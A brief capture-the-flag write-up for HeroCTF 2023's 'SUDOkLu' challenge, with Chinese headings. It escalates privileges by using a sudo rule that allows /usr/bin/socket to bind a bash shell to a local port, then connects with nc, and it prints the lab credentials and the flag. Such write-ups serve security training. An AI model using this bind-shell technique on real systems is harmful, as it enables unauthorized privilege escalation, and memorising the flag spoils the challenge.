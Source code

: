 ```yaml
---
title: Misc - SUDOkLu
description: 2023 | HeroCTF | System
tags:
    - sudo
    - socket
---
```


## 题目

This is a warmup to get you going. Your task is to read `/home/privilegeduser/flag.txt`. For our new commers, the title might steer you in the right direction ;). Good luck!

Credentials: `user:password123`

## 解题思路

- 查看能够使用 `sudo` 执行的命令

    ```bash
    $ sudo -l
    Matching Defaults entries for user on sudoklu:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

    User user may run the following commands on sudoklu:
        (privilegeduser) NOPASSWD: /usr/bin/socket
    ```

- 开启监听

    ```bash
    $ socket
    Usage: socket [-bclqrvw] [-B local ip] [-p prog] {{-s|host} port | [-s] /path}
    $ sudo -u privilegeduser socket -v -p bash -s 8081
    inet: listening on port 8081
    ```

- 另起一个终端连接

    ```bash
    $ nc localhost 8081
    whoami
    privilegeduser
    cat ~/flag.txt
    Hero{ch3ck_f0r_m1sc0nf1gur4t1on5}
    ```

## 参考资料

- [linux - sudo access a file without sudo password - Super User](https://superuser.com/a/1347943)